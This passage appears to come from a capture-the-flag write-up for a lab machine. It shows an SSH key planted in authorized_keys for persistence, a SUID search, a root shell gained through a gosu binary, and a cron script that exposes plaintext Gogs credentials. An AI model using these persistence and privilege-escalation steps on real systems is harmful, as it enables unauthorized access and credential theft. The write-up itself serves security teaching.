 ```
/data/git/.ssh $ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDsiPbWC8feNW7o6emQUk12tFOcucqoS/nnKN/LM3hCtPN8r4by8Ml1IR5DctjeurAmlJtXcn8MqlHCRbR6hZKydDwDzH3mb6M/gCYm4fD9FppbOdG4xMVGODbTTPV/h2Lh3ITRm+xNHYDmWG84rQe++gJImKoREkzsUNqSvQv4rO1RlO6W3rnz1ySPAjZF5sloJ8Rmnk+MK4skfj00Gb2mM0/RNmLC/rhwoUC+Wh0KPkuErg4YlqD8IB7L3N/UaaPjSPrs2EDeTGTTFI9GdcT6LIaS65CkcexWlboQu3DDOM5lfHghHHbGOWX+bh8VHU9JjvfC8hDN74IvBsy120N5 kaneki@kaneki-pc" >> authorized_keys
```

There's not much `git` has access to, but I found an interesting  `gosu` suid binary:

```
/data/git $ find / -perm /4000 2>/dev/null
[...]
/usr/sbin/gosu
/bin/su
```

I can get root access by just running it:

```
3713ea5e4353:~$ gosu root /bin/bash
3713ea5e4353:/data/git# cd
3713ea5e4353:~#
```

The root user directory contains a 7zip archive and a `session.sh` file with some credentials.

```
3713ea5e4353:~# ls
aogiri-app.7z  session.sh
```

```shell
3713ea5e4353:~# cat session.sh
#!/bin/bash
while true
do
  sleep 300
  rm -rf /data/gogs/data/sessions
  sleep 2
  curl -d 'user_name=kaneki&password=12345ILoveTouka!!!' http://172.18.0.2:3000/user/login
done
```

The `session.sh` logs in to the gogs application every 10 minuters as per the crontab.

```
3713ea5e4353:~# crontab -l
# do daily/weekly/monthly maintenance
# min	hour	day	month	weekday	command
*/15	*	*	*	*	run-parts /etc/periodic/15min
0	*	*	*	*	run-parts /etc/periodic/hourly
0	2	*	*	*	run-parts /etc/periodic/daily
0	3	*	*	6	run-parts /etc/periodic/weekly
0	5	1	*	*	run-parts /etc/periodic/monthly
*/10	*	*	*	*	/root/session.sh
```
